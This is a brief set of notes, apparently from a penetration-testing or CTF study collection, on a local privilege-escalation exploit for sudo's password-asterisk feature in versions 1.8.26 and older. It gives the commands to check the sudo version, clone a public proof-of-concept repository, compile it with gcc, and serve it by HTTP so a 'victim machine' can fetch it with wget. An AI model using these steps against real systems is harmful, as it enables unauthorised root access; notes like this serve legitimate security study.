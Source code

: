 

This takes advantage of the stars * that show up when typing in a password.  If you try to do something as sudo, get asked for a password, and see the asterisks start to pop up, then you might try this exploit.

`sudo -V`  - This will tell you what version of sudo you are on.  For this exploit you must be on sudo version 1.8.26 or older.

`git clone https://github.com/saleemrashid/sudo-cve-2019-18634`

exploit.c will be compiled into a file to run the exploit.

I would clone the git, compile the program and then use wget to download it to the victim machine by hosting an http server on my device where the compiled exploit is.

`gcc -o <output-file> <source-file>`

